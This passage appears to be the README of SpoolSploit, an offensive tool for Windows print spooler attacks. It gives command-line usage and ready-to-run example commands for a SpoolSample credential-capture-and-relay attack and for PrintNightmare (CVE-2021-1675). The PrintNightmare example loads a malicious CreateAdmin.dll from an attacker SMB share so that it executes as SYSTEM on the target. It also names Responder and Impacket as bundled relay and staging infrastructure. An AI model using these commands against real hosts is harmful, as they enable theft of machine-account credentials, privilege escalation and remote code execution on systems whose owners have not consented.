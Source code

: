 ### Command-line Usage
```
usage: spool_sploit.py [-h] -a {spoolsample,nightmare} -rH RHOST -rP {139,445} [-lH LHOST] [-lS LSHARE] -d DOMAIN -u USER -p PASSWD

optional arguments:
  -h, --help            show this help message and exit
  -a {spoolsample,nightmare}, --attack {spoolsample,nightmare}
                        Attack type to execute on target(s).
  -rH RHOST, --rhost RHOST
                        Remote target IP, CIDR range, or filename (file:<path>)
  -rP {139,445}, --rport {139,445}
                        Remote SMB server port.
  -lH LHOST, --lhost LHOST
                        Listening hostname or IP
  -lS LSHARE, --lshare LSHARE
                        Staging SMB share (UNC)
  -d DOMAIN, --domain DOMAIN
                        Domain for authentication
  -u USER, --username USER
                        Username for authentication
  -p PASSWD, --password PASSWD
                        Password for authentication

Example - spoolsample:
  python3 spool_sploit.py -a spoolsample -lH 10.14.1.24 -d evil.corp -u rjmcdow -p 'P4ssword123!' -rP 445 -rH 10.5.1.10

Example - nightmare:
  python3 spool_sploit.py -a nightmare -lS '\\10.14.1.24\C$\CreateAdmin.dll' -d evil.corp -u rjmcdow -p 'P4ssword123!' -rP 445 -rH 10.5.1.10
```

### SpoolSample - Capture and relay Windows machine account credentials
The SpoolSploit Docker container includes [Responder](https://github.com/lgandx/Responder) for relaying machine account hashes obtained from executing the ```spoolsample``` attack in SpoolSploit. As several great articles exist detailing the process of relaying privileged machine account credentials for privilege escalation, I will not go into those details here.

<p align="center">
  <img src="media/SpoolSample.gif" width="75%">
</p>

### PrintNightmare (CVE-2021-1675) - Execute malicious DLLs on Windows targets as SYSTEM
Included in the SpoolSploit container is an SMB server implemented via [Impacket](https://github.com/SecureAuthCorp/impacket). This server can be used to host malicious DLLs when executing the ```printnightmare``` attack in SpoolSploit. The default SMB server settings work, but if you want to customize them you can modify the configuration file located at ```/home/dlogmas/smbserver/smb-v1.conf```.
